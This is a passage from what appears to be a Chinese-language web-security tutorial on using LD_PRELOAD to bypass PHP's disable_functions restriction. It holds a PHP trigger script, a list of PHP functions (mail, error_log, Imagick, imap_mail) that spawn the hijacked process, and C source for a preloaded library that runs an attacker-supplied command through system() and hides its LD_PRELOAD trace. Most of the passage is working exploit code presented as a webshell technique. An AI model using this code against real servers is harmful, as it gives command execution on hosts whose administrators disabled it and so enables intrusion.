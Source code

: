 test2.php

```
<?php
putenv("CMD=ls");
putenv("LD_PRELOAD=./test3_x64.so");
error_log("a",1);
?>
```

![1567075553666](通过LD_PRELOAD绕过disable_functions.assets/1567075553666.png)

可以看到执行成功。





**可以使用的函数**

```
mail("aa@qq.com","","","","-bv")   //-bv是不真正发送邮件
error_log("a",1)
$img = new Imagick('xx.wmv')
imap_mail('1@2','2@3','222','','')
```





### 小马

bypass.c

```
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```
